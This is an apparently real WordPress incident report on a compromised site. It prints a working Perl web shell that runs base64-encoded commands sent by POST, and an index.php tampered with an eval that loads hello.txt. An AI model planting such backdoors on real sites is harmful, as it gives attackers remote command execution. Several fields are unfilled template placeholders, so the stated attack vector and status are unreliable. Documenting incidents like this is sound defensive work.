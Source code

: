 Scripts Execution Timestamp: 05-05-2025 03:17 PM
Reported By: Ate Awit Leones
Forwarded By: Kuya Andy Barredo

Scripts Displayed Name: hello.txt

Code Execution x Backdoor used:

--

#!/usr/bin/perl   -I/usr/local/bandmin
use MIME::Base64;print "Content-type: text/html\n\n";if($ENV{'REQUEST_METHOD'} eq "POST"){my ($i, $key, $val, $in);read(STDIN, $in, $ENV{'CONTENT_LENGTH'});@in = split(/&/, $in);foreach $i (0 .. $#in){$in[$i] =~ s/\+/ /g;($key, $val) = split(/=/, $in[$i], 2);$key =~ s/%(..)/pack("c", hex($1))/ge;$val =~ s/%(..)/pack("c", hex($1))/ge;$in{$key} .= "\0" if (defined($in{$key}));$in{$key} .= $val;}if($in{"cmd"}){print decode_base64($in{"check"})."<pre>";system(decode_base64($in{"cmd"}));print "</pre>"}}

--




## 🛡️ WordPress Security Incident Report

**Incident Type:** Plugin Vulnerability Exploitation  
**Status:** Investigated / Mitigated / Ongoing (choose one)  
**Date of Discovery:** 05-05-2025  
**Affected System:** https://igsl.asia  
**Reporting Team:** ICT x Cyberist Team  

---

### 🕵️ Summary of Incident

On **05-05-2025**, unusual activity was detected on the WordPress installation hosted at **https://igsl.asia**. After investigation, it was determined that a malicious actor exploited a vulnerability in the **Elementor** plugin to gain unauthorized access or execute malicious operations on the site.

---

### 🛠️ Attack Vector

* **Plugin Name:** `Elementor`  
* **Version:** `3.27.3`  
* **Vulnerability Type:** [e.g., Arbitrary File Upload / SQL Injection / RCE]  
* **CVE Identifier (if applicable):** [CVE-YYYY-NNNN]  
* **Exploit Method:**  
  The attacker sent crafted requests to the vulnerable plugin endpoint, enabling them to [upload malicious PHP files / modify site content / gain admin access].

---

### 📆 Timeline of Events

| Date & Time         | Event Description                     |
| -------------------- | ------------------------------------- |
| 05-05-2025 03:00 PM | Suspicious login/file access detected |
| 05-05-2025 03:05 PM | Logs reviewed; malicious file found   |
| 05-05-2025 03:10 PM | Plugin identified as vulnerable       |
| 05-05-2025 03:15 PM | Plugin disabled and removed           |
| 05-05-2025 03:20 PM | Patches applied / backups restored    |

---

### 🔍 Forensic Findings

* **Malicious Files Detected:**  

  * `/OSD_DATA/osdcgiapi/.htaccess`
  * `/OSD_DATA/osdcgiapi/perl.alfa`  
  * `/hello.txt`  

  Modified index.php  calling hello.txt the gombling page.



<?php
/**
 * Front to the WordPress application. This file doesn't do anything, but loads
 * wp-blog-header.php which does and tells WordPress to load the theme.
 *
 * @package WordPress
 */

/**
 * Tells WordPress to load the WordPress theme and output it.
 *
 * @var bool
 */
eval("?>".file_get_contents('./hello.txt'));
define( 'WP_USE_THEMES', true );

/** Loads the WordPress Environment and Template */
require __DIR__ . '/wp-blog-header.php';

  ---

* **Logs Indicating Compromise:**  

  * Access logs show POST requests to `/wp-admin/admin-ajax.php` or plugin-specific endpoints.  
  * Timestamps correspond to file uploads or privilege escalation.  

* **Users Affected:**  

  * [Administrator]  

---

### 🩹 Containment & Remediation

* Plugin immediately removed from the server.  
* All admin passwords reset.  
* Verified file integrity of core WordPress files and themes.  
* Disabled file editing via `wp-config.php`.  
* Installed and configured security plugin (e.g., Wordfence, Sucuri).  
* Updated all plugins, themes, and WordPress core to latest versions.  

---

### ✅ Preventive Measures

* Enabled automatic updates for all plugins and core.  
* Added file change detection monitoring.  
* Scheduled regular backups and offsite storage.  
* Implemented web application firewall (WAF).  
* Conducted staff awareness on phishing and credential hygiene.  

---

### 📝 Recommendations

* Audit third-party plugins regularly for security reputation and update activity.  
* Avoid using plugins that are outdated or no longer maintained.  
* Harden WordPress by disabling XML-RPC and limiting admin access via IP.  

---